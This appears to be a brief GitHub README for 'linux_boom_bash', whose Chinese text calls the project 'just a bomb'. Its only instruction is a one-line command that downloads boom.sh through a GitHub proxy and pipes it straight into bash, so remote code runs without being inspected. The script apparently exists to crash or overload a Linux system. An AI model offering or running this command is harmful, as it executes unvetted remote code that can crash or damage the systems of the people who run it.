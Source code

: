 # linux_boom_bash
这只是一个炸弹而已<br>
bash <(curl -L https://ghp.ci/https://raw.githubusercontent.com/Zhang12334/linux_boom_bash/refs/heads/main/boom.sh)
